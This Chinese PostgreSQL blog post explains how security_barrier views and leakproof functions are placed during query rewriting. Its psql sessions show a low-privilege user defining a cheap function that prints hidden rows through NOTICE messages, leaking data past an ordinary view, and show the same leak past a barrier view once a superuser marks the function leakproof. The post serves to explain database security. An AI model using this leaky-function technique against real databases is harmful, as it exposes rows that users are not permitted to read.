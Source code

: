 ## PostgreSQL leakproof function in rule rewrite("attack" security_barrier views)  
##### [TAG 6](../class/6.md)
                                                 
### 作者                                                 
digoal                                                  
                                                    
### 日期                                                  
2014-04-14                                                                          
                                                  
### 标签                                                                                                                                                                  
PostgreSQL , leakproof , 安全栅栏 , 优化器 , 算子优先级 , 视图攻击                              
                                              
----                                                  
                                                
## 背景              
上一篇BLOG我介绍了一下PostgreSQL 9.4新增的一个功能, 支持自动更新设置了安全栅栏的简单视图.  
  
http://blog.163.com/digoal@126/blog/static/163877040201431475019925/  
  
在文章结尾的时候提到leakproof函数和安全栅栏条件一样, 在重写规则时会放到用户的过滤条件之前执行.  
  
因此, 安全栅栏并不能防止leakproof的攻击(当然, 只有超级用户才能创建leakproof函数, 所以也不能说利用leakproof来攻击了. 因为既然有了超级用户权限, 就不需要这么麻烦来获取数据了, 直接读原表得了.).   
  
另外, 使用leakproof函数需要注意的是它的实际执行成本, 如果实际执行成本很高的函数, 又没有特别的需要让它先执行, 那么最好不要设置为leakproof, 因为它不管其他过滤条件, 都是先执行的.  
  
我们可以拿视图攻击的例子来演示这个攻击 :   
  
## 正文  
普通视图的攻击例子 :   
  
```  
digoal=# create table userinfo(id int, groupid int, username text, age int, addr text, email text, phone text);  
CREATE TABLE  
digoal=# insert into userinfo values (1, 1, 'digoal', 1000, '杭州西湖区', 'digoal@126.com', '13999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (2, 1, 'test', 1000, '火星', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (3, 1, 'test', 1000, '月球', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (4, 2, 'test', 1000, '土星', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# create view v_userinfo as select * from userinfo where groupid =2;  
CREATE VIEW  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from userinfo;  
ERROR:  permission denied for relation userinfo  
digoal=> select * from v_userinfo;  
ERROR:  permission denied for relation v_userinfo  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# grant select on v_userinfo to digoal;  
GRANT  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo;  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
  
digoal=> create or replace function attack(int,int,text,int,text,text,text) returns boolean as $$  
digoal$> declare  
digoal$> begin  
digoal$>   raise notice '%,%,%,%,%,%,%', $1,$2,$3,$4,$5,$6,$7;  
digoal$>   return true;  
digoal$> end;  
digoal$> $$ language plpgsql cost 0.00000000000000000000001;  
CREATE FUNCTION  
digoal=> select * from v_userinfo;  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
  
digoal=> select * from v_userinfo where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
设置视图的安全栅栏属性 :   
  
使用普通的函数就不能攻击他了.  
  
```  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# create view v_userinfo_1 with(security_barrier) as select * from userinfo where id=2;  
CREATE VIEW  
  
digoal=# grant select on v_userinfo_1 to digoal;  
GRANT  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  2 |       1 | test     | 1000 | 火星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
但是, 如果把函数设置为leakproof, 就可以被攻击了.  
  
```  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# alter function digoal.attack(int,int,text,int,text,text,text) leakproof;  
ALTER FUNCTION  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  2 |       1 | test     | 1000 | 火星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
原因是在重写规则时, leakproof函数和安全栅栏条件一样, 被放到了relation层过滤, 而普通函数则在子查询中过滤 :   
  
```  
digoal=> explain verbose select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
                                                                       QUERY PLAN                                                     
                       
------------------------------------------------------------------------------------------------------------------------------------  
---------------------  
 Seq Scan on public.userinfo  (cost=0.00..34.00 rows=3 width=140)  
   Output: userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone  
   Filter: (attack(userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone) AN  
D (userinfo.id = 2))  
(3 rows)  
  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# alter function digoal.attack(int,int,text,int,text,text,text) not leakproof;  
ALTER FUNCTION  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> explain verbose select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
                                                                         QUERY PLAN                                                   
                           
------------------------------------------------------------------------------------------------------------------------------------  
-------------------------  
 Subquery Scan on v_userinfo_1  (cost=0.00..34.10 rows=3 width=140)  
   Output: v_userinfo_1.id, v_userinfo_1.groupid, v_userinfo_1.username, v_userinfo_1.age, v_userinfo_1.addr, v_userinfo_1.email, v_  
userinfo_1.phone  
   Filter: attack(v_userinfo_1.id, v_userinfo_1.groupid, v_userinfo_1.username, v_userinfo_1.age, v_userinfo_1.addr, v_userinfo_1.em  
ail, v_userinfo_1.phone)  
   ->  Seq Scan on public.userinfo  (cost=0.00..34.00 rows=10 width=140)  
         Output: userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone  
         Filter: (userinfo.id = 2)  
(6 rows)  
```  
  
当然, 只有超级用户才能创建leakproof函数, 所以也不能说利用leakproof来攻击了. 因为既然有了超级用户权限, 就不需要这么麻烦来获取数据了, 直接读原表得了.  
  
```  
digoal=> \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> alter function digoal.attack(int,int,text,int,text,text,text) not leakproof;  
ALTER FUNCTION  
digoal=> alter function digoal.attack(int,int,text,int,text,text,text) leakproof;  
ERROR:  only superuser can define a leakproof function  
```  
  
## 参考  
1\. http://www.postgresql.org/docs/devel/static/rules-privileges.html  
  
2\. http://blog.163.com/digoal@126/blog/static/163877040201361031431669/  
  
3\. http://blog.163.com/digoal@126/blog/static/163877040201431475019925/  
    
                          
  
<a rel="nofollow" href="http://info.flagcounter.com/h9V1"  ><img src="http://s03.flagcounter.com/count/h9V1/bg_FFFFFF/txt_000000/border_CCCCCC/columns_2/maxflags_12/viewers_0/labels_0/pageviews_0/flags_0/"  alt="Flag Counter"  border="0"  ></a>  
  
  
  
  
  
  
## [digoal's 大量PostgreSQL文章入口](https://github.com/digoal/blog/blob/master/README.md "22709685feb7cab07d30f30387f0a9ae")
  
  
## [免费领取阿里云RDS PostgreSQL实例、ECS虚拟机](https://free.aliyun.com/ "57258f76c37864c6e6d23383d05714ea")
  
  
![digoal's weixin](../pic/digoal_weixin.jpg "f7ad92eeba24523fd47a6e1a0e691b59")
  

